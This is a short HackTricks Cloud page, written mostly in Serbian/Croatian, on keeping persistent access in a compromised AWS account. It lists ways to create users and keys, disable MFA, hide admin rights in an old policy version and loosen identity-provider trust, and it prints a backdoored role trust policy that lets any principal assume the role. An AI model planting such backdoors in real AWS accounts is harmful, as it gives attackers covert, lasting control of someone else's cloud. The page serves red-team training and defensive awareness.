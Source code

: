 # AWS - IAM Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

Za više informacija pristupite:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Uobičajena IAM Persistencija

* Kreirajte korisnika
* Dodajte kontrolisanog korisnika u privilegovanu grupu
* Kreirajte pristupne ključeve (novog korisnika ili svih korisnika)
* Dodelite dodatne dozvole kontrolisanim korisnicima/grupama (priložene politike ili inline politike)
* Onemogućite MFA / Dodajte svoj MFA uređaj
* Kreirajte situaciju sa lancem uloga (više o ovome u nastavku u STS persistenciji)

### Politike poverenja za backdoor uloge

Možete napraviti backdoor u politiku poverenja kako biste mogli da je preuzmete za spoljašnji resurs koji kontrolišete (ili za sve):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": [
"*",
"arn:aws:iam::123213123123:root"
]
},
"Action": "sts:AssumeRole"
}
]
}
```
### Backdoor Policy Version

Dajte Administrator dozvole politici koja nije u njenoj poslednjoj verziji (poslednja verzija treba da izgleda legitimno), a zatim dodelite tu verziju politike kontrolisanom korisniku/grupi.

### Backdoor / Create Identity Provider

Ako račun već veruje u zajedničkog provajdera identiteta (kao što je Github), uslovi poverenja mogu biti pojačani kako bi napadač mogao da ih zloupotrebi.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
